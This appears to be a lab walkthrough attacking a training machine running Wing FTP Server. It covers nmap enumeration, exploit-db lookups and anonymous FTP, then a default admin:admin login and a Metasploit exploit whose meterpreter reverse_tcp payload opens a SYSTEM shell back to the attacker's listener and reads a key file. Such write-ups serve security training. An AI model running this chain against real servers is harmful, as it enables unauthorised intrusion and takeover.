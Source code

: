 IP Address is 
10.14.1.36

Suggestions indicate:
Active Information Gathering
Vulnerability & Exploit Databases (exploit-db and searchsploit)
Intro Password Attacks
Basic Commands
Exploit commands

Lets Start with Scanning
First we will capture our report to 2/initial
                                         

nmap -Pn -sC -sV -oN 2/initial $STEVEN
Starting Nmap 7.92 ( https://nmap.org ) at 2023-07-27 18:07 EDT
Nmap scan report for 10.14.1.36
Host is up (0.17s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Wing FTP Server
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| Status for user anonymous:
|     Connected for 0 minutes, 2 seconds
|     2 users online.
|     Uploaded 0 files, 0.000 KB, 0.000 KB/sec average
|     Downloaded 0 files, 0.000 KB, 0.000 KB/sec average
|_End of status.
80/tcp open  http    Wing FTP Server(Ferdi Bak)
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 Not found
|     Server: Wing FTP Server(Ferdi Bak)
|     Cache-Control: private
|     Content-Type: application/octet-stream
|     Content-Length: 0
|     Connection: close
|   GetRequest, HTTPOptions, RTSPRequest: 
|     HTTP/1.0 200 HTTP OK
|     Server: Wing FTP Server(Ferdi Bak)
|     Cache-Control: private
|     Content-Type: text/html
|     Content-Length: 316
|     Connection: close
|     <noscript><center><H2>The web client requires that you have Javascript enabled on your browser.<br>If you're not sure how to do this, <a href='help_javascript.htm'>click here.</a></H2></center></noscript>
|_    <meta http-equiv='Content-Type' content='text/html; charset=utf-8'><script>top.location='login.html';</script>
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Wing FTP Server(Ferdi Bak)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :


So we see FTP and 80 (http) open
Additionally, we can see it's using "Wing FTP Server"
Lets search and see if there is anything in searchsploit.
Additionally since it's open on port 80, lets see if there is anything on the page?
![Image1](/VHL/Reports/2/2_1.png)



Let's also see if we can determine what OS is being used:


sudo nmap -A -p 21,80 -Pn $STEVEN 
OS details: Microsoft Windows Server 2008 or 2008 Beta 3, Microsoft Windows Server 2008 R2 or Windows 8.1, Microsoft Windows 7 Professional or Windows 8, Microsoft Windows Embedded Standard 7, Microsoft Windows 8.1 R1, Microsoft Windows Phone 7.5 or 8.0, Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7, Microsoft Windows Vista SP2, Windows 7 SP1, or Windows Server 2008

So at this point we are guessing this is a windows server.
Let's see what searchsploit and exploit-db have?

Wing FTP Server - (Authenticated) Command Execution (Metasploit)                                              | windows/remote/34517.rb
Wing FTP Server - Authenticated CSRF (Delete Admin)                                                           | php/webapps/48200.txt
Wing FTP Server 3.2.4 - Cross-Site Request Forgery                                                            | multiple/webapps/10821.txt
Wing FTP Server 6.0.7 - Unquoted Service Path                                                                 | windows/local/47818.txt
Wing FTP Server 6.2.3 - Privilege Escalation                                                                  | windows/local/48160.py
Wing FTP Server 6.2.5 - Privilege Escalation                                                                  | multiple/webapps/48154.sh
Wing FTP Server 6.3.8 - Remote Code Execution (Authenticated)                                                 | lua/webapps/48676.txt
Wing FTP Server Admin 4.4.5 - Cross-Site Request Forgery (Add User)                                           | php/webapps/36992.txt
Wing FTP Server Admin 4.4.5 - Multiple Vulnerabilities                                                        | windows/webapps/36861.txt

Since we know anonymous ftp is allowed, maybe we can try that?
![Image2](/VHL/Reports/2/2_2.png)

So we know that we can get into the server using anonymous login (with no password). 
Can we do anything with this? I can't tell what version it is using despite being in the page. 
As an anonymous user, I don't have permissions to upload.
Let's see if the exploits yield any success?

Metasploit shows 1 good option:
   11  exploit/windows/ftp/wing_ftp_admin_exec         2014-06-19       excellent  Yes    Wing FTP Server Authenticated Command Execution


This required admin credentials - I realized I didn't have admin credentials, and would be able to utilize this exploit.
Reviewing the internet for "Wing FTP server" however, tells me port 5466 and 7466 are also commonly used ports.
Lets scan to see if these yield anything?

sudo nmap -sS -Pn -p 5466,7466 $STEVEN
Starting Nmap 7.92 ( https://nmap.org ) at 2023-07-27 18:43 EDT
Nmap scan report for 10.14.1.36
Host is up (0.16s latency).

PORT     STATE    SERVICE
5466/tcp open     unknown
7466/tcp filtered unknown

Nmap done: 1 IP address (1 host up) scanned in 2.75 seconds

Indeed!  Let's see what is there.
sudo nmap -sV -Pn -p 5466,7466 $STEVEN
Starting Nmap 7.92 ( https://nmap.org ) at 2023-07-27 18:44 EDT
Nmap scan report for 10.14.1.36
Host is up (0.31s latency).

PORT     STATE    SERVICE VERSION
5466/tcp open     unknown
7466/tcp filtered unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port5466-TCP:V=7.92%I=7%D=7/27%Time=64C2F367%P=x86_64-pc-linux-gnu%r(Ge
SF:nericLines,1E7,"HTTP/1\.0\x20200\x20HTTP\x20OK\r\nServer:\x20Wing\x20FT

It looks like we are getting a page response from one of these, so can we pull a page?
10.14.1.36:7466 yields nothing , but 10.14.1.36:5466 gives us the admin page!

Lets try admin:admin? Wow, I didn't expect that to work…
![Image3](/VHL/Reports/2/2_3.png)

So right now, we have both a metasploit that can take an admin user/password, as well as FTP webpage administrator access.
Lets try metasploit first to see where this gets us?

msfconsole
use windows/ftp/wing_ftp_admin_exec
Show options -> 
Module options (exploit/windows/ftp/wing_ftp_admin_exec):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   yes       Admin password
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                     yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT     5466             yes       The target port (TCP)
   SSL       false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                    no        Path to a custom SSL certificate (default is randomly generated)
   USERNAME                   yes       Admin username
   VHOST                      no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     172.16.4.1       yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wing FTP Server >= 3.0.0

msf6 exploit(windows/ftp/wing_ftp_admin_exec) > set password admin
password => admin
msf6 exploit(windows/ftp/wing_ftp_admin_exec) > set username admin
username => admin
msf6 exploit(windows/ftp/wing_ftp_admin_exec) > set RHOST 10.14.1.36
RHOST => 10.14.1.36

msf6 exploit(windows/ftp/wing_ftp_admin_exec) > exploit

[*] Started reverse TCP handler on 172.16.4.1:4444 
[*] Found Wing FTP Server 4.3.8
[+] Found Powershell at C:\Windows\System32\WindowsPowerShell\v1.0\
[*] Executing payload via PowerShell...
[*] Sending stage (175174 bytes) to 10.14.1.36
[*] Meterpreter session 1 opened (172.16.4.1:4444 -> 10.14.1.36:43156 ) at 2023-07-27 18:55:44 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > pwd
C:\Windows\system32
meterpreter > sysinfo
Computer        : STEVEN-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows

From here, attempted to search for key.txt:
search -f *key.txt
No files matching your search were found.

Ok, nothing returned, lets check the paths from the provided / listed for the course?
ls "C:\Documents and Settings\Administrator\Desktop"
Listing: C:\Documents and Settings\Administrator\Desktop
========================================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  282   fil   2017-05-22 06:22:27 -0400  desktop.ini
100666/rw-rw-rw-  20    fil   2017-05-22 06:23:21 -0400  key.txt.txt


meterpreter > cat key.txt.txt
t70m5jaco2zy9vhqlb6smeterpreter > 

There we go!
